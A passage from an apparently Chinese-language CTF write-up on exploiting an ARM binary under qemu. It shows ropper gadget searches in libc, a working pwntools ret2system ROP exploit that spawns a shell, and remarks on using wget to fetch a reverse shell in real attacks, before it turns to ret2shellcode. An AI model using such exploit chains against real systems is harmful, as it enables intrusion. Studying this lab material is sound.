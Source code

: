 从目标sp寄存器倒着找：找找有没有sp给r0，找到如下两条看起来好用的：

```c
➜  ropper --file ./libc.so.0 --search "mov r0, sp"
0x00041308: mov r0, sp; blx r2; 
0x00037884: mov r0, sp; blx r3; 
```

如果要用以上的gadget，则需要提前控制r2或者r3，才能让ROP链继续工作，但是我们没有直接控制r2,r3的gadget，所以迂回战术，从可以控制的寄存器入手，找到一条：

```c
➜   ropper --file ./libc.so.0 --search "mov r2, r0"
0x00041304: mov r2, r0; mov r0, sp; blx r2; 
```

即通过r0控制r2，这条非常合适，因为这其实就是`mov r0, sp`，前一条指令，直接省去了一条gadget。故rop链首先使用`pop {r0, pc}`，控制r0为system，pc为`mov r2, r0; mov r0, sp; blx r2; `，然后栈地址就会给r0，并跳转到system，exp如下：

```python
from pwn import *
context(arch='arm',os='linux',log_level='debug')
io = process(["qemu-arm","-L",".","./pwntest"])
#io = process(["qemu-arm","-g","1234","-L",".","./pwn"])

io.recvuntil("gift: ")
libc = int(io.recv(),16) - 0x660c0

system   = 0x0004d144
pop_r0   = 0x00034410  # pop {r0, pc}
mov_sp   = 0x00041304  # mov r2, r0; mov r0, sp; blx r2;

payload =  p32(libc + pop_r0)
payload += p32(libc + system)    
payload += p32(libc + mov_sp) 
payload += "$0"

io.sendline('a'*36+payload)
io.interactive()
```

但使用ret2system在真实情景有时不太优雅，一般cmd是去wget下载反弹shell，所以攻击者自己经常要开两个端口，一个web服务等着被攻击者去下载反弹shell的程序，一个端口等着shell来。

## ret2shellcode

> 思考是否能直接使用shellcode进行反弹shell，这样攻击者就省去一个端口。在本题的情景下，恶意数据都在栈上，所以就是想办法凑出类似jmp sp的gadget

### 转移sp

仍然是从sp倒着找，滤掉一些实际重复、或者看着就很复杂、以及有内存操作指令的gadget：

```c
➜  ropper --file ./libc.so.0 --nocolor --search "mov ??, sp"  | grep -v "bl #"
0x00041308: mov r0, sp; blx r2; 
0x00037884: mov r0, sp; blx r3; 
0x0001084c: mov r5, sp; mov r2, r0; mov r0, r2; add sp, sp, #0x10; pop {r4, r5, r6, pc}; 
0x0004d120: mov r7, sp; mov r0, r5; add sp, sp, #0x14; pop {r4, r5, r6, r7, pc}; 
```
